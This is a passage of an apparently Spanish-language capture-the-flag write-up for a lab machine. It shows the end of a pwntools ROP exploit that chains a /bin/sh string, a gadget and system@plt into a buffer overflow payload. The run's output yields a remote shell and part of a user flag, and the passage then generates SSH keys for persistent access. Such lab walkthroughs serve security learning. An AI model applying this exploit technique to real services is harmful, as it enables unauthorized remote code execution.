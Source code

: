 ```python title="exploit.py (Creado por S4vitar)" wrap=false
#  40100b:      48 85 c0                test   %rax,%rax
#  4010c2:      48 85 c0                test   %rax,%rax
#  401104:      48 85 c0                test   %rax,%rax
# 0000000000401152 <test>:

test = p64(0x401152)

payload = junk + bin_sh + pop_r13 + system_plt + null + null + test

p.sendline(payload)
p.interactive()
```

```bash wrap=false
❯ python3 exploit.py
[+] Opening connection to 10.10.10.147 on port 1337: Done
[*] Switching to interactive mode
 11:39:24 up  2:05,  0 users,  load average: 0.00, 0.00, 0.00
$ whoami
user
$ pwd
/
$ hostname -I
10.10.10.147 dead:beef::250:56ff:fe94:942c
$ cat user.txt
349f5a4461f0619...
```

Para conectarnos de manera más cómoda lo haremos por **SSH**:

```bash wrap=false title="Máquina atacante"
❯ ssh-keygen
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/zelpro/.ssh/id_ed25519):    
Created directory '/home/zelpro/.ssh'.
Enter passphrase for "/home/zelpro/.ssh/id_ed25519" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/zelpro/.ssh/id_ed25519
Your public key has been saved in /home/zelpro/.ssh/id_ed25519.pub
The key fingerprint is:
SHA256:wFFaddUAW2YpFRHuBetXOg8wvlMFwWNRmBU65G8dxM8 zelpro@kali
The key's randomart image is:
+--[ED25519 256]--+
|      ..o.. o*^^+|
|     . +   .+*X=.|
|      +     +*o+=|
|       .   . =o+E|
|        S   . Boo|
|             o.= |
|            o   .|
|             .   |
|                 |
+----[SHA256]-----+
```
